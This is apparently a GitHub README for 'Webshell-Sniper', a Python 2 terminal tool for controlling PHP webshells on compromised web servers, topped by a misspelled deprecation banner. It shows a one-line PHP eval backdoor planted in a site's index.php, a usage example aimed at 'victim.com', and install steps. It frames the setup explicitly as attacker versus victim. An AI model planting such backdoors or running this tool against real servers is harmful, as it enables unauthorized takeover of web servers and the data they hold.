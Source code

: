 # 🚨 Depricated Warning (Experimental Project)

> **This project has been depricated and this governancy decied mainatinance not charged - all packages or their equivalents can be found there instead**


# Webshell-Sniper
A webshell manager via terminal

#### Usage :
```
Usage : 
        python webshell-sniper.py [URL] [METHOD] [AUTH]
Example : 
        python webshell-sniper.py http://127.0.0.1/c.php POST c
Author : 
        ThreatCode <threatcodeer@gmail.com>
```
```
# cat /var/www/html/index.php
<?php eval($_POST['s3cr3t']);?>
# python webshell-sniper.py http://victim.com/index.php POST s3cr3t
...
```

#### Installation:
```
git clone https://github.com/ThreatCode/Webshell-Sniper
cd Webshell-Sniper
pip install -r requirements.txt
```

#### Example : 

> v1.1.2

#### Compatibility :
```
Enviroment :
    Attacker :
        Linux
        python 2.7
    Victim :
        apache 2.4
        php 7.0
```

#### Addations:
1. This tool only support to run on unix-like system.
2. It is able to help user control web server which is running PHP or MySQL.
